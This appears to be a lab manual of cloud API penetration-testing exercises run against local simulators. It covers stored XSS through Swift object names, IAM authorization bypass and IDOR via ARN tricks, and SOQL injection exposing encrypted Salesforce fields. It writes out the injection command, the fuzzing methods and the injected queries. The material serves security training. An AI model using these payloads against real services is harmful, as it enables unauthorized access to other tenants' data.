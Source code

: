 # Exercises

A walkthrough of some sample exercises is provided next. Each respective cloud API simulator also contains additional exercises for you to explore outside of this content.

Each exercise assumes that you have already setup the simulator servers and the respective client tools.

---

<details>
<summary>Cross-site Scripting with REST APIs</summary>

![image](xss-exercise-sample-screenshot.png)

From a web browser (connect to your HTTP MitM Proxy, Burp) navigate to:
> `http://localhost:9080/REST/API/endpoint.cgi`

Observe that the page renders a listing of files store in a backend OpenStack Swift (Object Storage). In the first release for customers they could use the upload functionality of this page to upload files to the server for storage.

Observe that if you attempt to upload a file with a filename that does not comply to the restrictions that you are blocked. Feel free to try repeating a few malicious payloads via Burp in an attempt to inject XSS on the list page. During the first pen test the service was not found vulnerable to XSS.

##### Customer Version 2
Months later customers demanded a way to more easily bulk upload millions of their data files. The application was updated to allow customers to use the OpenStack cloud REST APIs to perform bulk uploads via the Swift service.

Our subsequent pen test will uncover that an attacker can bypass the filename character input validation and cause XSS to be exploited on the application.

### Useful concepts

1. The Swift CLI for the OpenStack SDK and REST API
   - https://docs.openstack.org/ocata/cli-reference/swift.html
1. Observe: Object Storage != Filesystem Storage nor the same limitations
   - https://docs.openstack.org/api-ref/object-store/index.html#objects

### Baseline Start (QA)

We start by only performing legitimate, expected behaviors (i.e. inputs) of the functionality. This tells us if the service we are testing actually works as well as what a valid request looks like.

```shell
echo $USER > sample_object.txt

swift --insecure -A https://localhost:8080/auth/v1.0 -U system:root -K testpass upload fileuploads ./sample_object.txt

swift --insecure -A https://localhost:8080/auth/v1.0 -U system:root -K testpass upload fileuploads /etc/os-release
```

Observe on the application website (GUI) that the file uploads now appear.

You can also observe the traffic in your HTTP MitM proxy (Burp). You will noticed that there are two calls. One to authenticate with the client credentials and obtain a token. Another to perform the actual upload. In this case we are not attacking the authentication or authorization but instead already have credentials.

### Malicious Input Injection

We observed previously that uploading files via the web browser (HTML/HTTP form upload) resulted in strict validation of the permitted filenames. Is that the case with the standard SDK of the OpenStack REST API?

```shell
swift --insecure -A https://${LAB_OPENSTACK_IP}:8080/auth/v1.0 -U system:root -K testpass copy fileuploads sample_object.txt -d '/fileuploads/easytest<script>alert("you been pwned")</script>forme'
```

Now observe the web UI result. You should see a simple (persistent) XSS payload execute.

Object Storage in the cloud is not strictly file storage. The key name of the object can be a wide range of byte sequences and not strictly characters.

ℹ️ In this example we used an API to copy an item already in the object storage but with a new key name. You could have also uploaded another file with a malicious name. The lesson is that you want to look for multiple possible API calls that were not considered by the application developers to cause unexpected behavior.
</details>

---

<details>
<summary>Authorization Bypass - Privilege Escalation</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/07-impersonation.md

Identity and access management (IAM) controls include policies that define permissions for the caller of the expected actions (APIs) and resources (IDs). These permissions can allow things or deny things based on a variety of conditional states.

A configuration mistake in a policy by the client/customer/tenant can result in unauthorized access to data or the ability to use the service in unwanted ways. This typically falls on the customer-shared responsiblity.

However, the cloud (or service) provider must also ensure that their systems correctly interept both the policy documents and how it is applied to the user inputs. Failure to do so could result in unauthorized access to the tenant's data or privilege escalation.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@000000001111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:000000001111:CareForPets
```

You'll observe a success response from the service. This is because the psuedo-policy allows access to CareForPets. Reference https://github.com/Coalfire-Research/cazt/blob/main/trainee/iam_policies/cazt_scen7_impersonation.json

### Malicious Input Injection

The goal is to bypass the IAM policy through a flaw in the cloud vendor's (responsibility) system to achieve FullAdmin access.

Attempt the following API REST call:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@00000000111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:00000000111:FullAdmin
```

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either
1. Verify that the request is visible in your HTTP MitM proxy (i.e. Burp)
1. The response should indicate that your request to the API was denied

##### Goal

The goal is to get a success response like the following:
```json
{
  "Message": "00000000111 using impersonation arn:cloud:iam:us-texas-9:00000000111:FullAdmin"
}
```

##### Attack Methodologies

1. Identify the input to attack
   - In this case "arn"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - One with the legit value CareForPets, the other FullAdmin
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?

##### Solution

```http
TODO add example
```

```http
TODO add example
```

In this case the software bug in the API was that the policy authorization rules were applied with case sensitivity in parts that were case insensitive.

</details>

---

<details>
<summary>Authorization Bypass - IDOR / Confused Deputy</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/02-cross_tenant.md

Identity and access management (IAM) controls include policies that define permissions defined by the customer/client/tenant owner. An expectation is that only the permissions the tenant chose to grant would permit access to their account data or resources.

The cloud (or service) provider must also ensure that their systems correctly interept both the policy documents, the inputs coming into an API, and whether the caller (tenant) was granted access. This applies for whether the caller is a member of the same tenant account or belongs to another tenant account.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt get \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen2_cross-tenant@123456789012 \
    --format json \
    --name=NotMyMoggy
```

For cloud APIs you will either observe an unauthorized response or a response that the item was not found (because it looked in your own account which did not have it). In this case we notice that NotMyMoggy was created in the tenant account `000000002222` but the caller's credentials are only for account `123456789012`.

ℹ️ If you need to reset the sample data see [CAZT - Populate sample data](configuration.md#populate-sample-data)

### Malicious Input Injection

In your HTTP MitM proxy (Burp) review your previous get API call.

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either

You will see in a psuedo-IAM policy that it uses a resource identifier that is longer than just a short id. The long-form of a resource ID looks like `arn:cloud:cazt:REGION:ACCOUNTID:SomeResourceNameOnly` or `//iam.googleapis.com/projects/PROJECT_ID/serviceAccounts/SERVICE_ACCOUNT_EMAIL` or `/subscriptions/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx/resourceGroups/myResourceGroup/providers/Microsoft.Compute/virtualMachines/myVM` (it varies by the cloud provider).

##### Goal

The end goal is to call the GetMoggy API from the attacker's  `--account=cazt_scen2_cross-tenant@123456789012` to get the resource that belongs to the victim in account `000000002222`.

```json
{
  "ActivityLogObjectStorage": "moggylitterbox-000000002222",
  "CreatedAt": 1751213493,
  "Description": null,
  "Name": "NotMyMoggy"
}
```

##### Attack Methodologies

1. You may assume that the attacker has knowledge of any API resource nomenclature (ARNs) or resource names belonging to the target victim.
   1. IDs are not secrets nor should knowledge of the ID be the only access control
1. The attacker would configure their own tenant account calling user with administrator (or * wildcard) permissions
   1. The attacker does not have any permissions granted by the target victim
   1. The attacker does control their own account so they would grant themselves (in their own tenant account) full admin
   1. This ensure that if the cloud service checks the caller's permissions to the API action only (but not the target resource input) it would not be blocked prematurely
1. Identify the input to attack
   - In this case "name"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?
1. Are there alternative aliases or conventions for defining the identifier?
   - MyShortID
   - arn:cloud:cazt:REGION:ACCOUNTID:MyShortID

##### Solution

```http
TODO add example
```

```http
TODO add example
```

In this case the API software bug was that it assumed only the short-form which it resolved as a relative alias to the full-length identifier. When supplied with an already resolved identifier it did not perform any resolution against the caller's account ID but just trusted the value given.

</details>

---

<details>
<summary>Encrypted Field Data Access Bypass - SOQL Injection</summary>

### Prerequisites

- Install Setup
  - https://github.com/Coalfire-Research/paas-cloud-goat
- You should be logged in using the standard user profile role
- Your web browser should already be connected to your HTTP MitM proxy (Burp)
- The PaaS Cloud Goat has helpful documentation on the lab exercise pages as well

### Baseline Start (QA)

In the PaaS Cloud Goat "welcome" tab navigate to the "Encrypted Field" page

1. The cloud vendor manages the encryption and keys for the encrypted field feature
1. You will observe that the masked values of the encrypted fields correspond to the exact length of the clear-text data
   1. Think of the feature more as an ACL restriction
   1. By default even your Salesforce org administrator does not get access to encrypted fields
   1. There is a checkbox in the Salesforce configuration for granting access to view the data
      - However, this exercise will demo how to bypass the control without a customer misconfiguration
1. Observe on this screen that a Salesforce API change corrected a common developer mistake
   1. The API used to have a clear-text viewing method that was commonly misused and exposed the data
   2. Now the data appears masked regardless

### Malicious Input Injection

Navigate to the page "SOQL Injection - Variant 3" which will simulate a SOQL vulnerability in the application. Execute the default query and observe the request + response in your HTTP MitM proxy (Burp).

```http
POST /apex/SOQLInjection3?isdtp=p1&sfdcIFrameOrigin=https://na-personal-dev-ed.develop.lightning.force.com HTTP/2
Host: na-personal-dev-ed--c.develop.vf.force.com
Cookie: ...REDACTED...
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: ...REDACTED...
Content-Type: application/x-www-form-urlencoded
Content-Length: 8103
Origin: https://na-personal-dev-ed--c.develop.vf.force.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4
Te: trailers

...REDACTED...
j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39=j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id45=Submit&com.salesforce.visualforce.ViewState=...REDACTED...000&com.salesforce.visualforce.ViewStateMAC=AG...REDACTED...%3D&com.salesforce.visualforce.ViewStateCSRF=VmpFPSxNakF5TlMwd09TMHhObFF4TlRvd01qb3dOQzR4TkRaYSxiRmw2U0pWVkFYMXlmZFNLYW5GQ1liSk9jWVZaVXZmOTZ5WVpIYnBNWC1JPSxNVFppTUdNeA%3D%3D
...REDACTED...
```

```http
HTTP/2 200 OK
Date: Sat, 13 Sep 2025 15:02:22 GMT
Content-Type: text/html;charset=UTF-8
...REDACTED...

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html lang="en-US"><head><script src="/static/111213/js/perf/stub.js" type="text/javascript"></script><script type="text/javascript">window.Sfdc = window.Sfdc || {};
...REDACTED...
        <h2>Resulting Output</h2>

        <p>
            <pre>[Building__c (Id:a00aj000010xZfbAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Vault, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:42)]
[Building__c (Id:a00aj000010xZfcAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Satellite, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71478)]
[Building__c (Id:a00aj000010xZfdAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:HQ, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:123123)]
[Building__c (Id:a00aj000010xZfeAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Bunker, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71927)]</pre>
        </p></div><div class="pbFooter secondaryPalette"><div class="bg"></div></div></div></div><script type="text/javascript">Sfdc.onReady(function(){
	SfdcApp && SfdcApp.Visualforce && SfdcApp.Visualforce.VSManager && SfdcApp.Visualforce.VSManager.vfPrepareForms(["j_id0:j_id35:j_id36:j_id37:j_id39"]);
...REDACTED...
```

The part of the request that you are interested in is the `&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43`. The input parameter name and path were assembled by the service framework for the developer. If you look at the Apex API controller itself it uses more friendly names such as `query`. If you know the Apex controller APIs parameter names you could use those as well:

```http
query=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&querySOQL=Submit
```

Note that you must keep the session identifiers such as:
- com.salesforce.visualforce.ViewState
- com.salesforce.visualforce.ViewStateVersion
- com.salesforce.visualforce.ViewStateMAC
- com.salesforce.visualforce.ViewStateCSRF

##### Goal

The end goal is to retrieve the clear-text values of the encrypted fields.

##### Attack Methodologies

Modify the injectable SOQL query for the API /apex/SOQLInjection3.

We are interested in obtaining the encrypted field `Ingredient` from the `Secret Sauce` object. Since these are custom objects in Salesforce they will require appending `__c` to get their data schema names.

Take our original, unencoded query that retrieved information about buildings:
```sql
SELECT id,ownerid,isdeleted,name,createddate,createdbyid,lastmodifieddate,lastmodifiedbyid,systemmodstamp,lastvieweddate,lastreferenceddate,entrypin__c FROM Building__c
```

To validate if we've guessed or used the correct object schema name we use well known global attributes:

```sql
SELECT id FROM SecretSauce__c
```

Re-encode the query and submit it to the service. If you get the results you know you have a valid query. Otherwise you may get an error page or an empty page.

##### Solution

Continuing with guessing the target schema attribute names we arrive at:

```sql
SELECT id,name,SecretIngredient__c FROM SecretSauce__c
```

We observe that even though the user did not have permission to the encrypted field the injection vulnerability allowed us to access the clear-text data.

</details>
